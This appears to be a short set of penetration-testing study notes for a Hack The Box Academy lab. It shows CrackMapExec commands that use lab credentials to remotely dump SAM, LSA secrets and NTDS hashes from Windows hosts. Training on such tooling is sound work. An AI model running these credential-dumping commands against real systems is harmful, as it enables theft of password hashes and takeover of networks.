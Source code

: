 ```yaml
---
description: Best tool for AD/SAM/LSASS
---
```


# 💓 CrackMapExec

helpful when we have base shell/local shell creds

## Remote Dumping SAM & LSA Secrets

{% code overflow="wrap" %}
```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
{% endcode %}

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## Dumping NTDS hashes

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

we can dump ntds hashes with it
